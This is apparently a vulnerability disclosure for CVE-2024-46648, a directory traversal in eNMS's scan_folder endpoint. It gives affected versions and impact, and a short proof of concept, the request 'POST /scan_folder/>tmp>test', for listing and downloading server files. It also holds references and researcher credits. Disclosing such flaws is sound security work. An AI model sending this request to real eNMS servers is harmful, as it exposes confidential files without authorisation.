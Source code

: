 # **CVE-2024-46648**
# Details
* **Vulnerability Type**: eNMS 4.4.0 < 4.7.1 Directory Traversal via scan_folder
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0 < 4.7.1
* **Affected Component**: /scan_folder/>[DIR]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
## ```POST /scan_folder/>[DIR]```

View and download file/directory content via ```SCAN FOLDER``` functionality:

![image](img/481.png)

```
POST /scan_folder/>tmp>test
```

![image](img/482.png)

Downloading the file found within the folder:
<br/><br/>
![image](img/483.png)
# References
https://nvd.nist.gov/vuln/detail/CVE-2024-46648 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-46648 <br>
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
